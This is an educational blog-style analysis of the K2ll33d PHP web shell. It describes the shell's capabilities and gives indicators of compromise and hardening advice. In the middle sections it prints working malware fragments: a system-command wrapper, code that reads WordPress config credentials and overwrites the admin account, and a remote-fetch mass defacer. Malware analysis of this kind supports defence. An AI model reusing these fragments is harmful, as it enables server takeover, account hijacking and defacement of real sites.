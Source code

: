 K2ll33d Shell: Analysis of a Hacking Tool 🛡️🔍

⚠️ Warning: This article is for educational purposes and security awareness only. The information provided should be used solely to protect systems and respond to security incidents in an ethical and legal manner.

What is K2ll33d Shell? 🤔

K2ll33d Shell is an advanced PHP web shell used by attackers to remotely control compromised web servers. Unlike simpler shells, this malware offers a complete graphical interface and numerous functionalities that facilitate the exploitation of vulnerable systems.

Key Features 🔑
🖥️ Graphical interface: Design with menus, forms, and CSS styles
📂 File navigation: Complete exploration of the file system
💻 Command execution: Terminal to execute system commands
🔌 CMS tools: Specific functions for WordPress and Joomla
🌐 Remote connections: Bind shell, reverse shell, and Metasploit connection
🔨 Hacking tools: Symlinker, mass defacer, brute forcer, etc.
How K2ll33d Shell Works 🔄

The analyzed code is an extensive PHP script (over 2000 lines) that implements multiple malicious functionalities. When loaded on a compromised server, it provides a web interface from which the attacker can control the system.

💡 Basic operation: The shell is loaded onto the server through vulnerabilities such as SQL injection, unvalidated file uploads, or compromised credentials. Once installed, the attacker accesses it through a web browser.

Using K2ll33d Shell (Technical Analysis) 🔬

The code begins with basic functions for manipulating files and executing commands:

// Function to execute system commands
function exe($cmd) {
    if(function_exists('system')) {
        @ob_start();
        @system($cmd);
        $buff = @ob_get_contents();
        @ob_end_clean();
        return $buff;
    } elseif(function_exists('exec')) {
        @exec($cmd,$results);
        $buff = "";
        foreach($results as $result) {
            $buff .= $result;
        } 
        return $buff;
    } elseif(function_exists('passthru')) {
        // Alternative code...
    }
}


The shell implements multiple modules accessible from its main menu:

📁 File Explorer: Allows navigation through the file system, creating, editing, deleting, and downloading files.
🖲️ Shell: Provides a terminal to execute system commands.
📤 Upload: Allows uploading files to the server from the local machine or from remote URLs.
🔗 Symlinker: Creates symbolic links to access files outside the web directory.
📝 Eval PHP: Executes arbitrary PHP code on the server.
📡 Remote Connection: Establishes bind shell or reverse shell connections.
🗄️ MySQL Manager: Interface for managing MySQL databases.
🧨 Mass Defacer: Modifies multiple files simultaneously.
🔓 Brute Force: Attacks services like FTP or cPanel using brute force.
🎯 Joomla/WordPress Tools: Specific tools to compromise these CMS.
Example of Use: Changing WordPress Credentials 🔐

The code includes a function to change WordPress admin credentials:

// Simplified fragment of the code
if ($_POST['kill']) {
    $url = $_POST['url'];
    $user = $_POST['user'];
    $pass = $_POST['pass'];
    $pss = md5($pass);
    
    // Extract configuration information
    $config = file_get_contents($url);
    $password = enter($config,"define('DB_PASSWORD', '","');");
    $username = enter($config,"define('DB_USER', '","');");
    $db = enter($config,"define('DB_NAME', '","');");
    $prefix = enter($config,'$table_prefix  = \'',"';");
    $host = enter($config,"define('DB_HOST', '","');");
    
    // Connect to the database
    $conn = @mysql_connect($host,$username,$password);
    @mysql_select_db($db,$conn);
    
    // Update admin credentials
    $query = mysql_query("UPDATE `".$prefix."users` SET `user_login` = '".$user."',`user_pass` = '".$pss."' WHERE `ID` = 1");
}

Evasion Techniques 🥷

K2ll33d Shell implements several techniques to evade detection:

🔄 Use of multiple alternative functions when the main ones are disabled
🛡️ Ability to operate in PHP's "safe_mode"
🔒 Obfuscation of parts of the code using base64
📡 Communication with external servers controlled by the attacker
Signs of Compromise 🚩

The following indicators may suggest that a server has been compromised with this web shell:

📄 Suspicious PHP files with random names or that attempt to appear legitimate
🔄 Unexpected modifications to system files
📶 Unusual network traffic to unknown IP addresses
📈 Unexplained increase in server resource usage
👤 New administrator accounts or changes in existing user permissions
Protection Measures 🛡️
🔄 Keep all software updated (CMS, plugins, themes)
🔑 Implement robust password policies and two-factor authentication
🔒 Configure restrictive permissions on the file system
🧱 Use Web Application Firewall (WAF)
👁️ Monitor file integrity with tools like Tripwire
⛔ Disable dangerous PHP functions like system(), exec(), shell_exec()
💾 Regularly create and verify backups

⚠️ Important: If you discover this type of code on your server, you should consider it compromised. Isolate the server, preserve evidence, remove the malware, restore from clean backups, and change all credentials before putting the system back into production.

Advanced Functionality Analysis 🔬

The shell contains several sophisticated modules for attacking different systems:

// Mass defacement function
elseif(isset($_GET['x']) && ($_GET['x'] == 'mass')){
    error_reporting(0);
    ?><center><br><br><div class="mybox"><h2 class="k2ll33d2">Folder Mass Defacer</h2>
    <center/><br><center><form ENCTYPE="multipart/form-data" action="<?$_SERVER['PHP_SELF']?>" method=post>
    Folder :<br/><input class="inputz" typ=text name=path size=60 value="<?=getcwd();?>">
    <br>File Name :<br/><input class="inputz" typ=text name=file size=60 value="index.php">
    <br>index URL :<br/><input class="inputz" typ=text name=url size=60 value="">
    <br><input class="inputzbut" type=submit value=Deface></form></div></center>
    <?php @error_reporting(0);
    $mainpath=$_POST[path];
    $file=$_POST[file];
    $indexurl=$_POST[url];
    echo "<br>";
    $dir=opendir("$mainpath");
    while($row=readdir($dir)){
        $start=@fopen("$row/$file","w+");
        $code=@file_get_contents($indexurl);
        $finish=@fwrite($start,$code);
        if ($finish){
            echo "&#187; $row/$file  &#187; Done<br><br>";
        }
    }
}

Conclusion 📝

K2ll33d Shell represents a significant threat to web servers due to its versatility and powerful capabilities. Understanding how this malicious tool works is essential for implementing effective protection measures and responding appropriately to security incidents.

SEO Keywords 🔍
K2ll33d Shell, PHP malware, web security, hacking tool, server protection, WordPress security, web shell detection

Meta Description 📋
Discover how K2ll33d Shell works, its dangerous capabilities, and essential protection measures to secure your web servers against this sophisticated PHP malware.
